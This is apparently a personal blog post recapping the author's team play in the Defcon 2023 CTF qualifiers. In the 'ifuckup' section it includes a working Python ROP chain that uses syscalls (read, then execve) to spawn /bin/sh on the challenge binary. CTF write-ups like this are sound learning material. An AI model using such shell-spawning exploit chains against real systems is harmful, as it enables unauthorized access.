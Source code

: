+++
title = "Defcon Qualifiers 2023!"
tags = ["PWN", "Defcon"]
description = "I played with a team of about 50 CTF players during defcon Qualifiers 2023!"
date = "May 27th"
author = "GoldenBoy"
labels = ["defcon","open-house","ifuckup","livectf","conclusion"]
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++

# Defcon
While this post does not contain any specific information regarding the challenges, I wanted to mention here that I played in this year's Defcon Qualifiers.

It was a lot of fun, and I learned a lot. In particular, I learned about how programs are linked together at compile time to form an elf binary, as well as some of the cool things c programs can do! 

I helped out with the pwn side of about 7 challenges, including ifuckup, open house, and 5 of the live challenges.

### Open House
for open house, one of my teammates (toasterpwn) wrote an [excelent writeup](https://toasterpwn.github.io/posts/defcon-ctf-2023-qualifiers/) that I recommend you check out!

### ifuckup
Regarding ifuckup, I helped out in a very small way. In short, my teammates figured out a way to break the prng used to generate the random address of the stack and code base. So, I just had to build a rop chain that spawns a shell using syscalls.

This took a bit of time, but was pretty easy, considering there is a syscall wrapper function available

```python
    syscall_wrapper_offset = 0x102d
    base = 0x0 #leaked by teammates
    pop4_ret = 0x10c4
    bin_sh_off = 0x3730

    #offset at 22 for eip
    rop_chain = b"A"*22
    rop_chain += p32(base + syscall_wrapper_offset) #call the syscall wrapper, so the stack is passed as arguments
    rop_chain += p32(base + pop4_ret) #remove junk on return
    rop_chain += p32(3) #read
    rop_chain += p32(0) #stdin
    rop_chain += p32(base + bin_sh_off) #ptr to a writable section in memory
    rop_chain += p32(11) #bytes to read
    rop_chain += p32(base + syscall_wrapper_offset) #call again
    rop_chain += p32(0) #padding
    rop_chain += p32(11) #execve
    rop_chain += p32(base + bin_sh_off) #ptr to bin sh
    rop_chain += p32(0) #argv
    rop_chain += p32(0) #envp
    rop_chain += p32(0)*7 + b"\x00\x00" #pad it to fit 100 chars

    r.sendline(rop_chain) #send initial chain
    r.sendline(b"/bin/sh"+p32(0)) #send the input to be read by crafted syscall
```

Once again, I want to make clear that this would not have been possible without the genius of our crypto players! Great work Shadowwws, ContronThePanda, vishiswoz, Quasar, and especially Genni!

All in all, I'm just happy that I could help our team solve the challenge! Even if it was only though a small little piece.

If one of my teammates releases a full writeup of the challenge I will link to it here!

### livectf
Overall was a lot of fun, I am not the fastest coder so I mainly helped with ideas and brainstorming. My favorite challenge was liveCTF3 which revolved around designing your own elf link.so. I thought it was cool, and something I had never really thought about before. In the end, you can manually place some shellcode in the executable section and trigger it at the end of main execution.

### Conclusion
I am looking forward to playing again next year, hopefully after I get better at reverse engineering!

Our team placed 15th and the top 12 teams qualify :(

![failure to launch](defcon_stats.png)
